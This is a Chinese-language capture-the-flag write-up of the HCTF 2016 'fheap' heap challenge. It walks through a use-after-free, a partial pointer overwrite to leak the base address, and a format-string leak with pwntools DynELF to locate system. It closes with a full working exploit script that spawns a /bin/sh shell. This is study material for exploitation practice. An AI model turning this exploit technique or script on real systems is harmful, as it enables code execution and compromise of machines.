



### HCTF 2016 fheap
### 一. 源码
源码
### 二. 题目分析
**1. 程序的生成**
> 假设我们的源码文件名叫做`fheap.c`
```
gcc fheap.c -pie -fpic -o fheap
strip fheap
```
> 其中`-fpic`是辅助`-pie`, 没有`-fpic`将会编译失败.
> `strip`是去除符号表(Discard symbols from object files)

**结论**: 平常PWN文件都可以正常调试，可是题目给我们的文件是无法调试的，加大了难度。
**2. 程序的运行**
> 运行之后，三个选项:

<ol>
	<li> create string
        <li> delete string
        <li> quit
</ol>

> 1. 选择`create string`, 输入size, content.
> 2. 选择`delete string`, 输入id, 是否删除.
> 3. 选择`quit`, 退出程序.

**结论:** 这是程序运行的简单介绍, 实际上就是一个字符串的管理程序。创建就是`malloc`, 删除`free`.

**3. 程序分析**

结构体:
```
typedef struct String{
    union {
        char *buf;			//输入的字符串大小>16, 地址付给buf
        char array[16];     		//输入的字符串大小<16, 存放在array中
    } o;
    int len;
    void (*free)(struct String *ptr); //存放的free函数的地址, delete时使用
} String;

struct {
    int inuse;
    String *str;
} Strings[0x10];
```
> **1. `create string ` **
>> 1. 字符串块<16, 在原来的堆块上存放输入的字符串。
 
>> 2. 字符串块>=16, `malloc`一个输入的字符串大小size的空间， 将该空间地址存放在原来的堆块中。
 

- - - 
> **2. `delete string`**
```
关键代码:
    if (Strings[id].str) {
		printf("Are you sure?:");
		read(STDIN_FILENO,buf,0x100);
		if(strncmp(buf,"yes",3)) {
			return;
		}
        Strings[id].str->free(Strings[id].str);
        Strings[id].inuse = 0;
    }
```
存在`double free`漏洞: `fastbin`维护的`chunk`大小从32~128字节, 假定我们执行一下过程.
```
create(4, 'aa')  --> id = 0, 假定堆块地址: 0x5010;
create(4, 'bb')  --> id = 1, 假定堆块地址: 0x5040
delete(1)
delete(0)
create(0x18, 'a' * 0x18) --> id = 0;
```
**注意:** 最后一次`create(0x18, 'a' * 0x18 )`, `malloc`两个堆块, 分别为`0x5010, 0x5040`, 其中`0x5040`存放的是字符串内容. `0x5010`存放着`0x5040`地址, 如下: .
```
0x5000:		0x0000000000000000		0x0000000000000031
0x5010:		0x0000000000005040		0x0000000000000000
0x5020:		0x0000000000000018		0x0000000000000d6c(shortfree)
0x5030:		0x0000000000000000		0x0000000000000031
0x5040:		0x6161616161616161		0x6161616161616161
0x5050:		0x6161616161616161		0x0000000000000d52(longfree)
```
假如此时, 我们`delete(1)`, 关键代码中的`Strings[1].str ==> 0x6161616161616161`, 为真. 就会执行`0x5058`的函数(longfree).
由此, 我们可以有这样的设想: create(0x20, content), content中的内容可以覆盖1中的longfree函数. delete(1), 就可以修改程序执行的流程.
**4. 涉及的知识点: **
> 1. `fastbin`的设计是为了快速的分配而准备的, 先进后出.
详见: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/comment-page-1/?spm=a313e.7916648.0.0.rJLhzh

**4. 程序的调试**
*任何程序都不是一下子能写成功, 需要调试, 如何调试?*

```
from pwn import *

p = process('./fheap')
......
gdb.attach(p)
......
```
> 执行过程中会弹出一个`gdb`的调试窗口, 这个窗口只和你写的`Python`脚本进行交互, 我们在`Python`脚本中写入发送的数据即可.

### 三. 思路总结

**保护检查**



**总体思路:** 泄露程序基地址, 找出system函数地址. 将free地址覆盖为`system`, 输入`/bin/sh`, 释放.
**First Step : 泄露程序基地址**
> `objdump -d fheap > fheap.txt`
```
freeShort(offset): 0xd52
freeLong(offset): 0xd6c
d2d:	e8 5e fc ff ff       	callq  990 <puts@plt>
```
可以看出, 两个free函数与0xd2d只相差一个字节, 于是我们可以将free函数的最后一个字节修改为0x2d, 从而调用`puts`函数, 将字符串和`callq  990`这条指令的地址一块打印出来, 然后减去0xd2d, 就是整个程序加载的基地址.

---------

**泄露system函数地址 **
> 利用格式化字符串漏洞, 以及`pwntools`模块的`DynELF`来找出`system`函数地址.
```
def leak(addr):
	delete(0)
	data = 'aa%9$s' + '#' * (0x18 - len('aa%9$s')) + p64(print_plt)
	create(0x20, data)
	p.recvuntil("quit")
	p.send("delete ")
	p.recvuntil("id:")
	p.sendline(str(1))
	p.recvuntil('sure?:')
	p.send("yes0123" + p64(addr))
	p.recvuntil('aa')
	data = p.recvuntil("####")[:-4]
	data += "\x00"
	return data
```
**最后一步**
> 发送"/bin/sh", 用system函数覆盖free函数.
```
payload = '/bin/sh\x00' + '#' * (0x18 - len('/bin/sh\x00')) + p64(system_addr)
```
### EXP
```
from pwn import *
from ctypes import *

DEBUG = 1
# context(log_level='debug')
# context.log_level = 'debug'
if DEBUG:
     p = process('./fheap')
else:
     r = remote('172.16.4.93', 13025)

print_plt=0

def create(size,content):
    p.recvuntil("quit")
    p.send("create ")
    p.recvuntil("size:")
    p.sendline(str(size))
    p.recvuntil('str:')
    p.send(content.ljust(size,'\x00'))
    p.recvuntil('n')[:-1]

def delete(idx):
    p.recvuntil("quit")
    p.sendline("delete ")
    p.recvuntil('id:')
    p.send(str(idx)+'\n')
    p.recvuntil('sure?:')
    p.send('yes '+'\n')

def leak(addr):
    delete(0)
    data = 'aa%9$s' + '#'*(0x18 - len('aa%9$s')) + p64(print_plt)
    create(0x20, data)
    p.recvuntil("quit")
    p.send("delete ")
    p.recvuntil('id:')
    p.send(str(1) + '\n')
    p.recvuntil('sure?:')
    p.send('yes01234' + p64(addr))
    p.recvuntil('aa')
    data = p.recvuntil('####')[:-4]
    data += "\x00"
    return data

def pwn():
    global print_plt

    create(4,'aa')
    create(4,'bb')
    create(4,'cc')   
    delete(2)
    delete(1)
    delete(0)

    data='a' * 0x10 + 'b' * 0x8 + '\x2d' + '\x00'
    create(0x20, data)
    delete(1)
    p.recvuntil('b' * 0x8)
    data = p.recvline()[:-1]

    if len(data) > 8:
        data = data[:8]
    data=u64(data.ljust(8,'\x00'))
    proc_base = data - 0xd2d
    print "proc base", hex(proc_base)
    print_plt = proc_base + 0x9d0

    print "print plt", hex(print_plt)
    delete(0)


    #part2
    data='a' * 0x10 + 'b'*0x8 +'\x2D'+'\x00'
    create(0x20, data)
    gdb.attach(p)
    delete(1)
    p.recvuntil('b'*0x8)
    data = p.recvline()[:-1]
#    gdb.attach(p)
    d = DynELF(leak, proc_base, elf=ELF('./fheap'))
    system_addr = d.lookup('system', 'libc')
    print "system_addr:", hex(system_addr)

    #part3
    delete(0)
    data='/bin/sh;' + '#' * (0x18 - len('/bin/sh;')) + p64(system_addr)
    create(0x20, data)
    delete(1)
    p.interactive()

if __name__ == '__main__':
    pwn()
```
### 心得
> 这是我第一次接触堆方面的题, 说实话这个过程实在很苦. 
>> 1. 网上找的相关文章, 水平参差不齐, EXP基本不能成功的GetShell. 
>> 2. 调试方面的锅, 不能直接调试.
>> 3. 堆方面的知识太少, 还得练.

**最后, 与君共勉, 加油!!!**
### 相关链接:
1. [逆向安全系列：Use After Free漏洞浅析](https://www.anquanke.com/post/id/85281) (EXP有效)
2. [fast-bin内存机制的利用探究](https://cartermgj.github.io/2016/12/01/Hctf-jiushigan/) (调试新方法, 针对地址随机化)
3. [hctf2016 fheap学习(FreeBuf发表的官方解法)](http://www.cnblogs.com/shangye/p/6156391.html) (知识点较全)
4. [HCTF开源Github](https://github.com/vidar-team/HCTF2016)
